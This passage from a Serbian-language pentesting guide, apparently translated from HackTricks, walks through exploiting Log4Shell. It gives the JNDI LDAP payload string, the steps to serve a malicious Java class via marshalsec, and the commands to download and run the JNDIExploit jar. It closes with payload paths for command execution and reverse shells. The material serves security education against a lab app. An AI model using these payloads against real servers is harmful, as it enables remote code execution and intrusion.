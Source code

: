 Kompajlujte Java fajl u klasni fajl koristeći: `javac Exploit.java -source 8 -target 8`. Zatim pokrenite **HTTP server** u direktorijumu koji sadrži klasni fajl koristeći: `python3 -m http.server`. Proverite da **marshalsec LDAP server** referiše na ovaj HTTP server.

Pokrenite izvršenje klase exploit na podložnom veb serveru slanjem payload-a koji liči na:

```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```

**Napomena:** Ova eksploatacija se oslanja na konfiguraciju Java-e koja dozvoljava učitavanje udaljenog koda putem LDAP-a. Ako ovo nije dozvoljeno, razmotrite eksploataciju pouzdane klase za izvršavanje proizvoljnog koda.

### RCE - **JNDIExploit**

{% hint style="info" %}
Imajte na umu da je autor iz nekog razloga uklonio ovaj projekat sa github-a nakon otkrića log4shell-a. Možete pronaći keširanu verziju na [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) ali ako želite da poštujete odluku autora, koristite drugi metod za eksploataciju ove ranjivosti.

Takođe, ne možete pronaći izvorni kod na wayback machine-u, pa ili analizirajte izvorni kod ili izvršite jar znajući da ne znate šta izvršavate.
{% endhint %}

Za ovaj primer možete pokrenuti ovaj **ranjivi web server za log4shell** na portu 8080: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_u README datoteci ćete pronaći kako da ga pokrenete_). Ova ranjiva aplikacija beleži sadržaj zaglavlja HTTP zahteva _X-Api-Version_ pomoću ranjive verzije log4shell-a.

Zatim, možete preuzeti **JNDIExploit** jar datoteku i izvršiti je pomoću:

```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```

Nakon što pročitate kod samo nekoliko minuta, u _com.feihong.ldap.LdapServer_ i _com.feihong.ldap.HTTPServer_ možete videti kako su **LDAP i HTTP serveri kreirani**. LDAP server će razumeti koji payload treba poslužiti i preusmeriti žrtvu na HTTP server, koji će poslužiti eksploataciju.\
U _com.feihong.ldap.gadgets_ možete pronaći **neke specifične gedžete** koji se mogu koristiti za izvršenje željene radnje (potencijalno izvršiti proizvoljni kod). A u _com.feihong.ldap.template_ možete videti različite klase predložaka koje će **generisati eksploate**.

Možete videti sve dostupne eksploate sa **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Neke korisne su:

```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
